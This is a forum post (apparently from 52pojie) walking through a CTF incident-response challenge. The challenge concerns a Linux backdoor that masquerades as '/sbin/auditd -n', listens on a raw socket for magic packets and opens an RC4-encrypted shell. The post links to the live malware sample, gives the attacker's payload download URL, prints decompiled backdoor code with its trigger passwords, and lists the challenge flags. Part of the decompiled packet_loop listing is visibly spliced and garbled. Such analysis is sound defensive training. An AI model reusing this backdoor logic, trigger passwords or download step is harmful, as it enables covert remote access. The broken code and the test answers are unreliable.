# [CTF] 分享一个简单的应急响应综合场景题目分析过程

- 原帖: `https://www.52pojie.cn/forum.php?mod=viewthread&tid=2082959`
- 抓取时间: 2026-11-01T21:58:00

## 0. 恶意文件和流量包

下载链接：`https://wwasz.lanzoul.com/i6NvO3eqie2d`

包含恶意后门程序和 pcap 流量包（解压密码：`52pojie`）

## 1. 题干

某公司近期遭受疑似APT组织的针对性网络攻击。安全团队在发现异常后已立即启动应急响应流程，并成功截取了攻击周期内的完整网络流量数据。请你分析提供的流量包附件，追踪APT的攻击痕迹，并对服务器进行全面排查。所有溯源反制场景赛题均基于同一流量包展开。

- 请找出恶意程序对应的进程 `COMMAND`。并使用 `flag{commamd}` 的形式提交
- 攻击者留下的后门是以哪个文件作为标志文件，从而避免多个后门程序同时运行。请使用 `flag{文件绝对路径}` 的形式提交
- 攻击者在通过后门程序用到的对称加密算法是什么？攻击者通过后门程序建立了两次链接，这里两次链接用到的密钥分别是什么？请将答案以下划线 `_` 连接。示例：`flag{aes_first-aes-key111_second-aes-key22}`
- 根据威胁情报，攻击者以发送数据包的方式建立 `shell`，请问攻击者是通过哪两个数据包进行后门触发的？请给出 `wireshark` 中数据包的两个编号，以下划线 `_` 连接。实例：`flag{1234_5678}`
- 请找到恶意代码的下载地址，将其 `md5` 后进行提交
- 攻击者在建立 `shell` 之后读取了哪些文件？如果有多个文件，请按攻击者读取顺序拼接提交。示例：`flag{A文件绝对路径_B文件绝对路径_..._n文件绝对路径}`

## 2. 分析过程

这是一道应急响应综合场景题，题目给了一个 `ssh` 服务器和一个 pcap 流量包，`ssh` 服务器是遭受攻击的靶机，pcap 流量包包含了攻击过程中的流量。

### 2.1. 找到恶意程序

使用笨办法，将受害者服务器的文件全部打包下载到本地，然后用杀毒软件扫描。



`1766935091540_d.png` (282.98 KB, 下载次数: 1)

[附件链接](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU3N3wzMDFjOWU0NnwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)

2025-12-28 23:18 上传

得到恶意程序的路径为 `\usr\sbin\syslogd`。之后关键字搜索 `syslogd`，发现 `\usr\bin` 下的 `ls` 被替换成了脚本文件，当 `ls` 命令被执行时，会自动去该地址下载恶意程序并后台执行。则恶意代码的下载地址为：`http://192.168.24.12:38956/sys1ogd`

此时得到第五问答案：`flag{c7fefd269f67de72130f9aaa393a77b0}`



`1766935130910_d.png` (277.54 KB, 下载次数: 1)

[附件链接](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU3OHw1YTU5NGRhMHwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)

2025-12-28 23:19 上传

### 2.2. 逆向分析过程

用 IDA 打开后门程序，可以发现出题人没有去除符号表，这对接下来的逆向分析带来了很大的便利。



`1766935169043_d.png` (132.55 KB, 下载次数: 1)

[附件链接](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU3OXxiYmU5NTBiY3wxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)

2025-12-28 23:19 上传

通过观察 `.text` 段的函数，看到了 `rc4`、`shell` 相关的函数名，可以大致猜测出这是一个 `shell` 后门程序，可能使用了 `RC4` 密码算法用于加密通信流量。

#### 2.2.1. `main` 函数

接下来直接分析反编译的 `main` 函数。

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  unsigned int v4; // eax
  int v5; // eax
  char v6_socket[7]; // [rsp+26h] [rbp-1Ah] BYREF
  char v7_justforfun[11]; // [rsp+2Dh] [rbp-13h] BYREF
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  strcpy(v7_justforfun, "justforfun");
  strcpy(v6_socket, "socket");
  strcpy(&pid_path, "/var/run/haldrund.pid");
  if ( !access(&pid_path, 4) )
    exit(0);
  if ( getuid() )
    return 0;
  if ( argc == 1 )
  {
    if ( !(unsigned int)to_open(*argv, "kdmtmpflush") )
      _exit(0);
    _exit(-1);
  }
  memset(&cfg, 0, 0x220uLL);
  *((_DWORD *)&cfg + 136) = 0;
  v4 = time(0LL);
  srand(v4);
  strcpy(dest, "/sbin/auditd -n");
  strcpy(s1_justforfun, v7_justforfun);
  strcpy(s_socket, v6_socket);
  setup_time(*argv);
  set_proc_name(argc, (char **)argv, dest);
  if ( fork() )
    exit(0);
  init_signal();
  signal(17, sig_child);
  godpid = getpid();
  v5 = open(&pid_path, 65, 420LL);
  close(v5);
  signal(17, (__sighandler_t)((char *)&dword_0 + 1));
  setsid();
  packet_loop();
  return 0;
}
```

观察发现，这里将 2 个字符串（`justforfun` 和 `socket`）写入了全局变量（快捷键 `n` 可以自定义修改函数名、变量名等，便于分析），说明后续别的函数很可能会用到这两个神秘字符串，猜测可能跟某种验证机制有关。



`1766935195884_d.png` (425 KB, 下载次数: 1)

[附件链接](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU4MHw0ZWZlZGE2ZnwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)

2025-12-28 23:19 上传

37 行用于创建 `PID` 文件，但没有往其中写入内容，结合 12-14 行可以推断出其目的是用于防止重复运行的，当 `/var/run/haldrund.pid` 已经存在时，程序就会立即退出。

此时得到第二问答案：`flag{/var/run/haldrund.pid}`



`1766935221468_d.png` (419.26 KB, 下载次数: 1)

[附件链接](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU4MXwzN2U4MTlhMnwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)

2025-12-28 23:20 上传

这里首先修改自己的进程名为 `/sbin/auditd -n`，随后 `fork()` 出一个子进程并让父进程直接退出，这样子进程的父进程就会变成 `init` 进程，程序通过这种方式将自己伪装成 Linux 系统的守护进程。在被攻击的服务器中执行 `ps -ef | grep /sbin` 发现后门程序已经伪装成系统守护进程在后台运行了。

此时得到第一问答案：`flag{/sbin/auditd -n}`



`1766935243940_d.png` (164.57 KB, 下载次数: 1)

[附件链接](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU4Mnw4ZjA1OGMxMnwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)

2025-12-28 23:20 上传



`1766935266450_d.png` (430.07 KB, 下载次数: 1)

[附件链接](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU4M3w0YzRlZWI0ZHwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)

2025-12-28 23:21 上传

#### 2.2.2. `packet_loop` 函数

后门程序将一切准备好后，就会进入主循环 `packet_loop()` 函数。先贴出完整代码。

```c
unsigned __int64 packet_loop()
{
    uint16_t v0; // ax
    size_t v1; // rax
    unsigned int v2; // eax
    unsigned int v3; // eax
    char *v4; // rax
    uint16_t v5; // ax
    uint16_t v6; // ax
    uint16_t v7; // ax
    in_addr_t s_addr; // [rsp+4h] [rbp-38Ch]
    int fd; // [rsp+8h] [rbp-388h]
    int v11; // [rsp+14h] [rbp-37Ch]
    __pid_t pid; // [rsp+1Ch] [rbp-374h]
    int v13; // [rsp+20h] [rbp-370h]
    int v14; // [rsp+24h] [rbp-36Ch]
    _BYTE *v15; // [rsp+28h] [rbp-368h]
    _BYTE *v16; // [rsp+30h] [rbp-360h]
    __int16 optval; // [rsp+50h] [rbp-340h] BYREF
    __int16 *v18; // [rsp+58h] [rbp-338h]
    __int16 v19; // [rsp+60h] [rbp-330h] BYREF
    char v20; // [rsp+62h] [rbp-32Eh]
    char v21; // [rsp+63h] [rbp-32Dh]
    int v22; // [rsp+64h] [rbp-32Ch]
    __int16 v23; // [rsp+68h] [rbp-328h]
    char v24; // [rsp+6Ah] [rbp-326h]
    char v25; // [rsp+6Bh] [rbp-325h]
    int v26; // [rsp+6Ch] [rbp-324h]
    __int16 v27; // [rsp+70h] [rbp-320h]
    char v28; // [rsp+72h] [rbp-31Eh]
    char v29; // [rsp+73h] [rbp-31Dh]
    int v30; // [rsp+74h] [rbp-31Ch]
    __int16 v31; // [rsp+78h] [rbp-318h]
    char v32; // [rsp+7Ah] [rbp-316h]
    char v33; // [rsp+7Bh] [rbp-315h]
    int v34; // [rsp+7Ch] [rbp-314h]
    __int16 v35; // [rsp+80h] [rbp-310h]
    char v36; // [rsp+82h] [rbp-30Eh]
    char v37; // [rsp+83h] [rbp-30Dh]
    int v38; // [rsp+84h] [rbp-30Ch]
    __int16 v39; // [rsp+88h] [rbp-308h]
    char v40; // [rsp+8Ah] [rbp-306h]
    char v41; // [rsp+8Bh] [rbp-305h]
    int v42; // [rsp+8Ch] [rbp-304h]
    __int16 v43; // [rsp+90h] [rbp-300h]
    char v44; // [rsp+92h] [rbp-2FEh]
    char v45; // [rsp+93h] [rbp-2FDh]
    int v46; // [rsp+94h] [rbp-2FCh]
    __int16 v47; // [rsp+98h] [rbp-2F8h]
    char v48; // [rsp+9Ah] [rbp-2F6h]
    char v49; // [rsp+9Bh] [rbp-2F5h]
    int v50; // [rsp+9Ch] [rbp-2F4h]
    __int16 v51; // [rsp+A0h] [rbp-2F0h]
    char v52; // [rsp+A2h] [rbp-2EEh]
    char v53; // [rsp+A3h] [rbp-2EDh]
    int v54; // [rsp+A4h] [rbp-2ECh]
    __int16 v55; // [rsp+A8h] [rbp-2E8h]
    char v56; // [rsp+AAh] [rbp-2E6h]
    char v57; // [rsp+ABh] [rbp-2E5h]
    int v58; // [rsp+ACh] [rbp-2E4h]
    __int16 v59; // [rsp+B0h] [rbp-2E0h]
    char v60; // [rsp+B2h] [rbp-2DEh]
```


```
    char v61; // [rsp+B3h] [rbp-2DDh]

    int v62; // [rsp+B4h] [rbp-2DCh]

    __int16 v63; // [rsp+B8h] [rbp-2D8h]

    char v64; // [rsp+BAh] [rbp-2D6h]

    char v65; // [rsp+BBh] [rbp-2D5h]

    int v66; // [rsp+BCh] [rbp-2D4h]

    __int16 v67; // [rsp+C0h] [rbp-2D0h]

    char v68; // [rsp+C2h] [rbp-2CEh]

    char v69; // [rsp+C3h] [rbp-2CDh]

    int v70; // [rsp+C4h] [rbp-2CCh]

    __int16 v71; // [rsp+C8h] [rbp-2C8h]

    char v72; // [rsp+CAh] [rbp-2C6h]

    char v73; // [rsp+CBh] [rbp-2C5h]

    int v74; // [rsp+CCh] [rbp-2C4h]

    __int16 v75; // [rsp+D0h] [rbp-2C0h]

    char v76; // [rsp+D2h] [rbp-2BEh]

    char v77; // [rsp+D3h] [rbp-2BDh]

    int v78; // [rsp+D4h] [rbp-2BCh]

    __int16 v79; // [rsp+D8h] [rbp-2B8h]

    char v80; // [rsp+DAh] [rbp-2B6h]

    char v81; // [rsp+DBh] [rbp-2B5h]

    int v82; // [rsp+DCh] [rbp-2B4h]

    __int16 v83; // [rsp+E0h] [rbp-2B0h]

    char v84; // [rsp+E2h] [rbp-2AEh]

    char v85; // [rsp+E3h] [rbp-2ADh]

  int v86; // [rsp+E4h] [rbp-2ACh]

  __int16 v87; // [rsp+E8h] [rbp-2A8h]

  char v88; // [rsp+EAh] [rbp-2A6h]

  char v89; // [rsp+EBh] [rbp-2A5h]

  int v90; // [rsp+ECh] [rbp-2A4h]

  __int16 v91; // [rsp+F0h] [rbp-2A0h]

  char v92; // [rsp+F2h] [rbp-29Eh]

  char v93; // [rsp+F3h] [rbp-29Dh]

  int v94; // [rsp+F4h] [rbp-29Ch]

  __int16 v95; // [rsp+F8h] [rbp-298h]

  char v96; // [rsp+FAh] [rbp-296h]

  char v97; // [rsp+FBh] [rbp-295h]

  int v98; // [rsp+FCh] [rbp-294h]

  __int16 v99; // [rsp+100h] [rbp-290h]

  char v100; // [rsp+102h] [rbp-28Eh]

  char v101; // [rsp+103h] [rbp-28Dh]

  int v102; // [rsp+104h] [rbp-28Ch]

  __int16 v103; // [rsp+108h] [rbp-288h]

  char v104; // [rsp+10Ah] [rbp-286h]

  char v105; // [rsp+10Bh] [rbp-285h]

  int v106; // [rsp+10Ch] [rbp-284h]

  __int16 v107; // [rsp+110h] [rbp-280h]

  char v108; // [rsp+112h] [rbp-27Eh]

  char v109; // [rsp+113h] [rbp-27Dh]

  int v110; // [rsp+114h] [rbp-27Ch]

  __int16 v111; // [rsp+118h] [rbp-278h]

  char v112; // [rsp+11Ah] [rbp-276h]

  char v113; // [rsp+11Bh] [rbp-275h]

  int v114; // [rsp+11Ch] [rbp-274h]

  __int16 v115; // [rsp+120h] [rbp-270h]

  char v116; // [rsp+122h] [rbp-26Eh]

  char v117; // [rsp+123h] [rbp-26Dh]

  int v118; // [rsp+124h] [rbp-26Ch]

  __int16 v119; // [rsp+128h] [rbp-268h]

  char v120; // [rsp+12Ah] [rbp-266h]

  char v121; // [rsp+12Bh] [rbp-265h]

  int v122; // [rsp+12Ch] [rbp-264h]

  __int16 v123; // [rsp+130h] [rbp-260h]

  char v124; // [rsp+132h] [rbp-25Eh]

  char v125; // [rsp+133h] [rbp-25Dh]

  int v126; // [rsp+134h] [rbp-25Ch]

  char dest[8]; // [rsp+140h] [rbp-250h] BYREF

  __int64 v128; // [rsp+148h] [rbp-248h]

  int v129; // [rsp+150h] [rbp-240h]

  char src[32]; // [rsp+160h] [rbp-230h] BYREF

  _BYTE s[23]; // [rsp+180h] [rbp-210h] BYREF

  unsigned __int8 v132; // [rsp+197h] [rbp-1F9h]

  struct in_addr v133; // [rsp+19Ah] [rbp-1F6h]

  _BYTE v134[478]; // [rsp+1AAh] [rbp-1E6h] BYREF

  unsigned __int64 v135; // [rsp+388h] [rbp-8h]

  v135 = __readfsqword(0x28u);

  v19 = 40;

  v20 = 0;

  v21 = 0;

  v22 = 12;

  v23 = 21;

  v24 = 0;

  v25 = 24;

  v26 = 2048;

  v27 = 40;

  v28 = 0;

  v29 = 0;

  v30 = 20;

  v31 = 69;

  v32 = 22;

  v33 = 0;

  v34 = 0x1FFF;

  v35 = 48;

  v36 = 0;

  v37 = 0;

  v38 = 23;

  v39 = 21;

  v40 = 0;

  v41 = 7;

  v42 = 17;

  v43 = 40;

  v44 = 0;

  v45 = 0;

  v46 = 20;

  v47 = 69;

  v48 = 18;

  v49 = 0;

  v50 = 0x1FFF;

  v51 = 177;

  v52 = 0;

  v53 = 0;

  v54 = 14;

  v55 = 72;

  v56 = 0;

  v57 = 0;

  v58 = 16;

  v59 = 21;

  v60 = 0;

  v61 = 15;

  v62 = 29269;

  v63 = 72;

  v64 = 0;

  v65 = 0;

  v66 = 36;

  v67 = 21;

  v68 = 12;

  v69 = 13;

  v70 = 26223;

  v71 = 21;

  v72 = 0;

  v73 = 12;

  v74 = 6;

  v75 = 40;

  v76 = 0;

  v77 = 0;

  v78 = 20;

  v79 = 69;

  v80 = 10;

  v81 = 0;

  v82 = 0x1FFF;

  v83 = 0xB1;

  v84 = 0;

  v85 = 0;

  v86 = 0xE;

  v87 = 'P';

  v88 = 0;

  v89 = 0;

  v90 = 26;

  v91 = 84;

  v92 = 0;

  v93 = 0;

  v94 = 240;

  v95 = 116;

  v96 = 0;

  v97 = 0;

  v98 = 2;

  v99 = 4;

  v100 = 0;

  v101 = 0;

  v102 = 14;

  v103 = 12;

  v104 = 0;

  v105 = 0;

  v106 = 0;

  v107 = 7;

  v108 = 0;

  v109 = 0;

  v110 = 0;

  v111 = 72;

  v112 = 0;

  v113 = 0;

  v114 = 14;

  v115 = 21;

  v116 = 0;

  v117 = 1;

  v118 = 25972;

  v119 = 6;

  v120 = 0;

  v121 = 0;

  v122 = 0x40000;

  v123 = 6;

  v124 = 0;

  v125 = 0;

  v126 = 0;

  optval = 27;

  v18 = &v19;

  v0 = htons(0x800u);

  fd = socket(17, 3, v0);

  if ( fd > 0 && setsockopt(fd, 1, 26, &optval, 0x10u) != -1 )

  {

    while ( 1 )

    {

      do

      {

        memset(s, 0, 0x200uLL);

        recvfrom(fd, s, 0x200uLL, 0, 0LL, 0LL);

        v11 = 4 * (s[14] & 0xF);

      }

      while ( v11 > 4))];

        }

      }

      if ( v16 )

      {

        print_log(v16);

        if ( *((_DWORD *)v16 + 1) == -1 )

          s_addr = v133.s_addr;

        else

          s_addr = *((_DWORD *)v16 + 1);

        pid = fork();

        if ( !pid )

        {

          *(_QWORD *)dest = 0LL;

          v128 = 0LL;

          v129 = 0;

          strcpy(src, "/usr/libexec/postfix/master");

          if ( fork() )

            exit(0);

          chdir("/");

          setsid();

          signal(1, 0LL);

          v1 = strlen(argv0);

          memset(argv0, 0, v1);

          strcpy(argv0, src);

          prctl(15, src);

          v2 = strlen(v16 + 10);

          rc4_init(v16 + 10, v2, &crypt_ctx);

          v3 = strlen(v16 + 10);

          rc4_init(v16 + 10, v3, &decrypt_ctx);

          v13 = logon(v16 + 10);

          print_string("comehere", 8LL);

          if ( v13 == 2 )

          {

            v7 = htons(*((_WORD *)v16 + 4));

            mon(s_addr, v7);

          }

          else if ( v13  0 )

                shell((unsigned int)v14, 0LL, 0LL);

            }

          }

          exit(0);

        }

        waitpid(pid, 0LL, 1);

      }

    }

  }

  return v135 - __readfsqword(0x28u);

}
```

通过分析可知，这是一个网络数据包处理循环，通过 `socket` 混杂模式监听本机所有网络接口的所有数据包。这里先接收监听到的数据包，然后通过 IP 头部的协议字段判断协议类型（1 为 ICMP 协议，6 为 TCP 协议，17 为 UDP 协议），随后让 `v16` 指向包的数据部分。



1766935286023_d.png (147.99 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=MjgyMzU4NHwzZWU3MmFiNXwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU4NHwzZWU3MmFiNXwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)

2025-12-28 23:21 上传

接下来分析程序如何根据接收到的数据部分进行响应。聚焦关键代码，发现程序使用数据包中偏移 10 字节的数据作为 RC4 的密钥，并通过 `logon()` 函数进行认证判断。



1766935318491_d.png (252.46 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=MjgyMzU4NXw0YzEyMDU1ZnwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgyMzU4NXw0YzEyMDU1ZnwxNzkzNTcwMjc3fDE2ODA4NnwyMDgyOTU5&nothumb=yes)

2025-12-28 23:21 上传

`logon()` 函数中将数据包偏移 10 字节的数据与前期写入的字符串全局变量（"justforfun" 和 "socket"）作比较，当等于 "justforfun" 时返回 0，等于 "socket" 时返回 1，否则返回 2。用 `v13` 保存返回结果。



1766935334757_d.png (107.35 KB, 下载次数: 1)

